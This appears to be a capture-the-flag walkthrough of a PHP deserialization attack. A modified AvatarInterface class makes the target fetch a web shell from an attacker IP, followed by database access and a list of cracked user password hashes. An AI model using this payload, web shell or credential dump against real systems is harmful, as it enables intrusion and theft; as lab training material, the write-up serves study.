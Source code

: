 ```php

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}


```

Going to change the avatarinterface a tiny bit so we get code exec.
```php
class AvatarInterface {
    public $tmp = 'http://10.10.14.30/eljay.php';
    public $imgPath = './eljay.php';

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$payload = serialize(new AvatarInterface);
echo $payload . "\n";
?>
O:15:"AvatarInterface":2:{s:3:"tmp";s:28:"http://10.10.14.30/eljay.php";s:7:"imgPath";s:11:"./eljay.php";}
```

where `eljay.php` is:
```php
<?php
system($_REQUEST['cmd']);
?>
```

Changing the cookie and sending it across writes the file.


So just send a rev shell in a post request and ta da! Shell on the box.

# Foothold as www-data
Pull data from the db using creds in the db_connect file.
```
psql -U dbuser -W -h localhost broscience
```

The hashes are prepended with a salt of NaCl (lol nice) as shown in that db connect file.

Cracking the hashes gives a few pwds (without the salt):
```
administrator:15657792073e8a843d4f91fc403454e1
bill:13edad4932da9dbb57d9cd15b66ed104:iluvhorsesandgym
michael:bd3dad50e2d578ecba87d5fa15ca5f85:2applesplus2apples
john:a7eed23a7be6fe0d765197b1027453fe
dmytro:5d15340bded5b9395d5d14b9c21bc82b:Aaronthehottest
```
